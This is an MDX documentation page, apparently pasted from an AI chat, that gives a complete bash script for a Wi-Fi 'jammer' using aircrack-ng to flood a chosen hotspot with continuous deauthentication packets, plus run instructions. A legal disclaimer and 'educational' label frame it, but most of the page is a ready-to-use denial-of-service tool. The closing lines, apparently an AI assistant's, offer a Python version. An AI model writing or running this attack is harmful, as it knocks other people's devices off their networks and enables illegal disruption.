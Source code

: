 import Warning from '@site/src/components/Warning'
import Tip from '@site/src/components/Tip'

# ⚠️ Ethical Wi-Fi Hotspot Jamming (Educational Use Only)

<Warning title="Important Legal Notice">
Jamming or disrupting Wi-Fi networks without explicit permission is **illegal** and considered a **Denial of Service (DoS)** attack under cybersecurity laws. Only use the following on **your own test networks** or with clear **written authorization**.
</Warning>

## ✅ What We’ll Do

We’ll create a script that sends deauthentication packets to disconnect devices from a nearby Wi-Fi hotspot.

## 🛠️ Prerequisites

- Linux system (e.g., **Kali Linux**)
- Wireless card that supports **monitor mode** and **packet injection**
- `aircrack-ng` suite installed

## 📜 Bash Script: Wi-Fi Deauth Jammer

```bash
#!/bin/bash

# Check for required tools
if ! command -v airmon-ng &> /dev/null || ! command -v aireplay-ng &> /dev/null; then
    echo "[!] Please install aircrack-ng first."
    exit 1
fi

echo "[*] Starting Wi-Fi hotspot jammer (deauth packets)..."

# Put interface into monitor mode
echo "[*] Enabling monitor mode..."
read -p "Enter your Wi-Fi interface name (e.g., wlan0): " iface
airmon-ng start $iface
mon_iface="${iface}mon"

# Scan for nearby networks
echo "[*] Scanning for nearby Wi-Fi networks. Press Ctrl+C when done."
airodump-ng $mon_iface

# Ask for target details
read -p "Enter target BSSID (MAC of Wi-Fi hotspot): " bssid
read -p "Enter target channel (CH): " channel

# Set monitor interface to the correct channel
echo "[*] Setting channel to $channel"
iwconfig $mon_iface channel $channel

# Start jamming
echo "[*] Starting deauthentication attack on $bssid..."
sleep 2
aireplay-ng --deauth 0 -a $bssid $mon_iface
```
⚙️ How to Run
Save the script as wifi_jammer.sh

Make it executable:

```bash
Edit
chmod +x wifi_jammer.sh
```
Run with sudo:

bash
Copy
Edit
sudo ./wifi_jammer.sh
🧠 How It Works
Enables monitor mode with airmon-ng

Scans networks using airodump-ng

Sends continuous deauth packets to target BSSID using aireplay-ng

<Tip title="Bonus: Python Version"> Want a Python + Scapy version of this Wi-Fi jammer script? Let me know and I’ll generate it for you. </Tip> ```
Let me know if you want this adapted for a specific platform like Docusaurus, Next.js, or something else—or if you want that Python version.
